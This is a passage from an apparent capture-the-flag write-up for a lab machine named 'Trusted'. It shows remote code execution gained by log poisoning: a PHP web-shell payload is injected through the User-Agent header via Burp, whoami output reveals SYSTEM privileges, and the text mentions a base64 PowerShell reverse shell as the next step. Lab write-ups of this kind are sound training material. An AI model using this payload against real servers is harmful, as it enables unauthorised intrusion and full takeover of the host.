 Obtaining RCE trough log poisoning seems feasible.

We can intercept and repeat the request using burp

![alt text](/assets/Trusted/Trusted-Poisoning.png)

Changing the user agent to:

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

After sending the request, we restore the User Agent and check if the php code is executed:

![alt text](/assets/Trusted/Trusted-RCE.png)

As we can see, the output of the command whoami is:

```text
nt authority\system
```

This means that we have RCE and we are also admin on the machine running the server. To obtain a full reverse shell we can just use a base64 encoded powershell reverse shell